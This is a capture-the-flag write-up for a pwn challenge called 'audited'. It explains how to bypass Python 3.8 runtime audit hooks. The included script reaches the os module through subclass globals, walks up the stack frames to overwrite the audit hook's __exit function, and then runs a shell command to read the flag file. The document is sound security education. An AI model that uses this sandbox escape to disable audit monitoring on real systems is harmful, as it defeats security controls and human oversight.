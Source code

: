 # audited - _pwn, 263pts_

For this challenge we had to bypass runtime audit hooks in the Python interpreter, which are a new addition in Python 3.8. In a nutshell, audit hooks allow scripts to add a hook which is called whenever any interesting event occurs. These events cover things like creating new code objects, opening files, and execveing. You can find a comprehensive list of all audit events in the [CPython documentation](https://docs.python.org/3/library/audit_events.html), and for more implementation details see the [PEP publication](https://www.python.org/dev/peps/pep-0578/).

Initially I thought this might be a 1-day challenge, so I trawled through all of the audit-hook-related entries in the Python bugtracker, and all issues/PRs on GitHub, but I didn't spot any obvious bugs which would help us solve this challenge. So this was either a previously-unknown bug in the audit implementation, or the developers had forgotten to add audit hooks for some useful function (seemed unlikely as they were pretty diligent in adding them, based on the commit history), or we had to attack the registered audit function itself.

Eventually I decided that the latter option seemed like the most likely, and it was clear that if we could get a reference to the `__main__` module, then we could overwrite the `__exit` function, which was called by the audit hook, to stop the audit function from actually exiting. 

I was able to achieve this by raising an exception and walking up the stack frames until I found the frame containing the reference to 
`__exit`. Once I had that I could just overwrite it with some no-op function.
```python
classes = 'a'.__class__.__base__.__subclasses__()
sys = classes[133].__init__.__globals__['sys']
os = classes[94].__init__.__globals__['_os']

try:
    raise Exception()
except Exception as e:
    _, _, tb = sys.exc_info()
    nxt_frame = tb.tb_frame

    # Walk up stack frames until we find one which
    # has a reference to the audit function
    while nxt_frame:
        if 'audit' in nxt_frame.f_globals:
            break
        nxt_frame = nxt_frame.f_back

    # Neuter the __exit function
    nxt_frame.f_globals['__exit'] = print

    # Now we're free to call whatever we want
    os.system('cat /flag*')
```

